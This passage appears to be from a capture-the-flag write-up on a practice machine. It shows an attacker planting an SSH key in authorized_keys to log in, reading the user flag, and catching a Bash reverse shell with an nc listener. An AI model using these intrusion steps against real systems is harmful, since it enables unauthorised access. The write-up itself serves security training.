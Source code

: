 
I need to put the `key.pub` contents into an `authorized_keys` file:

![image-20240711153948859](../img/image-20240711153948859.png)

Now I’ll connect with SSH:

    
    
    oxdf@hacky$ ssh -i key dvir@10.10.11.8
    Linux headless 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64
    ...[snip]...
    Last login: Thu Jul 11 21:15:45 2024 from 10.10.14.6
    dvir@headless:~$
    

And I can read `user.txt`:

    
    
    dvir@headless:~$ cat user.txt
    c857e232************************
    

#### Shell Via Reverse Shell

I’ll use a simple Bash reverse shell (which I cover in detail in [this
video](https://www.youtube.com/watch?v=OjkVep2EIlw)):

![image-20240711154231029](../img/image-20240711154231029.png)

I have manually encoded the `&` characters to `%26` so that they aren’t
confused for the start of a new POST parameter. I’ll start `nc` listening on
port 443, and send this. It hangs. At `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.8 39124
    bash: cannot set terminal process group (1347): Inappropriate ioctl for device
    bash: no job control in this shell
    dvir@headless:~/app$ 
    

I’ll do the [standard shell
upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):
